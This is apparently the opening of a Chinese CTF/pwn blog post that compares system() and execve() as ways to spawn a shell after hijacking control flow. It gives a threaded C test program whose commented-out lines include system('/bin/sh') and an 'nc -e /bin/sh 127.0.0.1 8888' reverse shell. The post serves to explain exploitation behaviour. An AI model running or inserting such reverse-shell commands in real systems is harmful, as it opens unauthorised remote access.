 ```yaml
---
title: Getshell动作：system与execve的原理与异同
date: 2020-12-14 00:00:00
categories:
- CTF/Pwn
tags: Getshell
---
```


> 命令注入本身就是system函数，内存破坏漏洞的利用如果想获取shell，控制流劫持后也无非是system和execve，那么这二者又有什么区别呢？当你控制流劫持，并成功的getshell后，你可想过，被你打的漏洞进程，他现在过的怎么样了呢？

示例代码仍然使用：

```
➜  gcc test.c -lpthread -o test && ./test
```

```c
#include <stdio.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>

void *thread1(void *arg){
//    system("/bin/sh");
//    system("/bin/sh &");
//    system("nc -e /bin/sh 127.0.0.1 8888");
//    system("nc -e /bin/sh 127.0.0.1 8888 &")
    while(1){
        printf("thread1         is running\n");
        sleep(1);
    }
}

void *thread2(void *arg){
//    execve("/bin/sh",NULL,NULL);
    while(1){
        printf("thread2         is running\n");
        sleep(1);
    }
}

int main(){
    getchar();
    pthread_t thid1,thid2;
    pthread_create(&thid1,NULL,(void*)thread1,NULL);
    pthread_create(&thid2,NULL,(void*)thread2,NULL);
//    int a = *(int *)0;
    while(1){
        printf("main thread     is running\n");
        sleep(1);
    }
    return 0;
}
```
